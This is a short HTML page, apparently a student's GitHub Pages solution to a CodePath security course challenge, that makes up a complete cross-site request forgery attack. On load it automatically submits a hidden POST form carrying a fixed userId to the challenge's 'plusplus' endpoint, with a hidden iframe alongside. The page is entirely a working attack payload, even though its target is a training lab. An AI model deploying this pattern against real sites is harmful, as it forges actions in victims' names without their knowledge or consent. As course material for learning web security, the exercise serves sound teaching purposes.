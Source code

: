 # JLPlummer79.github.io
<html>
  <body onload="document.csrfform.submit()">
    <form name="csrfform" action="http://security.codepath.com/user/csrfchallengtwo/plusplus/" method="POST">
      <input type="hidden" name="userId" value="74adf43a1036bfcf7daf75246270be0ee186c471"/>
      <input type="submit"/>
    </form>
    <iframe name="hidden_results" style="display: none;">  </iframe>
  </body>
</html>
